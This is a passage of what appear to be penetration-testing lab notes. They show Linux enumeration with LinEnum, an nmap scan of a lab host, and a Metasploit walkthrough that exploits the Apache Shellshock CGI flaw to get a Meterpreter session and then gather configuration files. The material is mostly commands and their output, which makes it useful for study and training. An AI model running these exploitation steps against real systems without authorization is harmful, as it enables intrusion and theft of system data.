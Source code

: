 **`LinEnum`** - bash script that _automates common Linux local enumeration_

```
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

### Enumeration & Exploitation <a href="#enumeration-and-exploitation-1" id="enumeration-and-exploitation-1"></a>

```bash
# Target Apache/ShellShock vuln
nmap -sV 192.191.69.3
	80/tcp open  http  Apache httpd 2.4.6 ((Unix))
```

```bash
service postgresql start && msfconsole -q
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS 192.191.69.3
set TARGETURI /gettime.cgi
run
```

```bash
sysinfo
    Computer     : 192.191.69.3
    OS           : Ubuntu 14.04 (Linux 6.8.0-39-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    
getuid
    Server username: uid=1, gid=1, euid=1, egid=1
```

### Metasploit Post-Exploitation <a href="#metasploit-post-exploitation" id="metasploit-post-exploitation"></a>

```
background
```

* Enumerate **configuration files**

```bash
use post/linux/gather/enum_configs
set SESSION 1
run
```
